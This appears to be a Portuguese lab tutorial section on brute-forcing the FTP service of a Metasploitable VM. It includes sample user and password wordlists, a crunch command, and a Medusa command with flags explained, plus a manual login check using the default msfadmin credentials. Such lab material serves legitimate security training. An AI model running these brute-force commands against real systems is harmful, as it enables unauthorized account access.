 4 — Wordlists usadas (exemplo)

Crie o diretório wordlists/ e adicione:

wordlists/users.txt

root
msfadmin
admin
user
test


wordlists/passwords.txt

password
123456
admin
msfadmin
toor
qwerty
P@ssw0rd


Gerar lista numérica com crunch (exemplo):

crunch 6 8 0123456789 -o wordlists/numeric.txt

5 — Cenário A: Força bruta em FTP (Medusa)

Objetivo: testar força bruta contra o serviço FTP do Metasploitable.

Comando Medusa (exemplo):

medusa -h 192.168.56.102 -M ftp -U wordlists/users.txt -P wordlists/passwords.txt -n 21 -f | tee results/medusa_ftp.txt


Parâmetros:

-h host alvo

-M ftp módulo FTP

-U lista de usuários

-P lista de senhas

-n porta (21 por padrão)

-f para parar ao encontrar credenciais válidas

tee salva a saída em results/medusa_ftp.txt

Validação manual (ex.: cliente FTP):

ftp 192.168.56.102
# no prompt ftp:
# user msfadmin msfadmin
